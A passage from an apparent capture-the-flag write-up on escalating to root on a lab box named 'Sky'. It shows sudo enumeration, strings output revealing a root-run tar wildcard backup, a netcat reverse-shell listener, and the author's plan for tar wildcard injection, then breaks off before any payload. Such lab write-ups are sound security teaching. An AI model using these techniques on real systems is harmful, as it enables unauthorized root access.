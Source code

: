 I used the found password to su as webdeveloper and it worked. I reconnected with SSH to get a better shell. 

## Getting root

I looked for any sudo permissions webdeveloper might have. 

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility

webdeveloper@sky:~$ ls -la /usr/bin/sky_backup_utility
-rwxr-xr-x 1 root root 16704 Aug  7  2021 /usr/bin/sky_backup_utility

webdeveloper@sky:~$ file /usr/bin/sky_backup_utility
/usr/bin/sky_backup_utility: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e1edd422e86d9c4cdb136d11a2dfbda966aa326d, for GNU/Linux 3.2.0, not stripped
```

They were able to run a backup utility as any user. The file was not writeable, so I could not change it. 

I ran strings on the executable. 

```bash
webdeveloper@sky:~$ strings /usr/bin/sky_backup_utility | less

/lib64/ld-linux-x86-64.so.2
puts
printf
system
...
Sky Backup Utility
Now attempting to backup Sky
tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/*
Backup failed!
Check your permissions!
Backup successful!
...
```

When I saw the tar command with a wildcard at the end, I tought I could use the same [technique I used in the past](https://erichogue.ca/2021/06/VulnNet). 

I reconnected as www-data to be able to write in `/var/www/html`. 

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.47.241 49964
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:02:15 up  2:16,  1 user,  load average: 0.00, 0.02, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
webdevel pts/2    10.13.3.36       21:54   54.00s  0.06s  0.06s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ cd /var/www/html

```